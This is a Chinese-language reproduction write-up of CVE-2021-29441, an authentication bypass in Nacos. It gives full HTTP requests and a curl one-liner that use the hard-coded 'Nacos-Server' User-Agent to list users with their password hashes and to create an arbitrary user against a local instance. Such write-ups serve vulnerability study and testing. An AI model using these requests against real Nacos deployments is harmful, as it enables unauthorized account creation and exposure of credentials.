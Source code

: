 # nacos未授权-CVE-2021-29441复现

1. 漏洞介绍
Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

影响版本: Nacos <= 2.0.0-ALPHA.1

2. 漏洞检测
访问页面
http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=2
在访问的时候，将User-Agent的值修改为Nacos-Server，发到repeater模块，看下返回包：
```
GET /nacos/v1/auth/users?pageNo=1&pageSize=2 HTTP/1.1
Host: 127.0.0.1:8848
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
```
此时看到返回的响应为200，并且包含了当前的用户名nacos，密码为加盐加密之后的值。
```
HTTP/1.1 200 
Content-Type: application/json;charset=UTF-8
Date: Tue, 21 Jun 2022 10:44:10 GMT
Connection: close
Content-Length: 159

{"totalCount":1,"pageNumber":1,"pagesAvailable":1,"pageItems":[{"username":"nacos","password":"$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"}]}
```

添加新用户
在下面的链接中添加一个新用户：crow，注意使用POST方法，并且需要将User-Agent依旧设置为Nacos-Server。
http://127.0.0.1:8848/nacos/v1/auth/users?username=crow&password=crow
```
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1:8848
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=crow&password=crow
```

此时再去访问以下链接看用户是否添加成功，需要将User-Agent依旧设置为Nacos-Server。
http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=2
此时用户添加成功，使用新建的账号登录：
当然，任意用户注册也可以使用curl来添加，效果是一样的。
curl -XPOST 'http://127.0.0.1/nacos/v1/auth/users?username=crow&password=crow' -H 'User-Agent: Nacos-Server'